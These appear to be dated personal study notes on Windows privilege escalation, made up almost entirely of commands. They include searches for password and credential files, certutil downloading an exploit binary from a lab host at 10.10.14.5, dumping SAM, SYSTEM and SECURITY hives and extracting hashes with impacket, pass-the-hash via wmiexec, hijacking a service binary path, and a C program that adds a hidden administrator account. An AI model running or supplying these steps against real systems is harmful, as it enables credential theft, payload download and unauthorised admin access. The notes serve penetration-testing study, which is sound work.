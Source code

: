 ## 21082023Mon

```
findstr /SI password *.txt
```

```
findstr /si password *.txt
```

```
C:\Windows\System32>findstr /si password *.txt *.ini *.config
```

### Service Control

```
sc query windefend
```

```
sc queryex type=service
```

### Network Shell

```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

![[Pasted image 20230822070831.png]]

```
netsh advfirewall show currentprofile
```

![[Pasted image 20230822070650.png]]

## 22082023Tue

## Automated Enumeration Tools
### Executables
- winPEAS.exe https://github.com/carlospolop/PEASS-ng/releases
- Seatbelt.exe (compile) https://github.com/GhostPack/Seatbelt
- Watson.exe (compile) https://github.com/rasta-mouse/Watson
- SharpUp.exe (compile) https://github.com/GhostPack/SharpUp
### PowerShell
- Sherlock.ps1
- PowerUp.ps1
- jaws-enum.ps1
### Other
- windows-exploit-suggester.py (local)
- Exploit Suggester (Metasploit)

## 23082023Wed

```
net group /domain "Domain Admins"
```

```
net group /domain "Domain Controllers"
```

![[Windows Privilege Escalation.png]]

```
wmic computersystem LIST full
```

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```
cmdkey /list
```

```
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

```
whoami /all
```

```
whoami /priv
```

```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

```
certutil -urlcache -f http://10.10.14.5/MS10-059.exe ms.exe
```

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

![](Pasted%20image%2020231009024625.png)

![](Pasted%20image%2020231009024654.png)

```
samdump2 SYSTEM SAM
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

![](Pasted%20image%2020231009033039.png)

**Dumping local SAM hashes (uid:rid:lmhash:nthash)**

```
impacket-wmiexec -hashes LMHASH:NTHASH
```

```
sc config "software/service" binpath="\"C:\filelocation\customfile.exe\""
```

```
sc qc software/service
```

```
shutdown /r /t 0
```

*adduser.c*

```
#include <stdlib.h>
int main ()
{
	int i;
	i = system ("net user dave2 password123! /add");
	i = system ("net localgroup administrators dave2 /add");
	return 0;
}
```

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```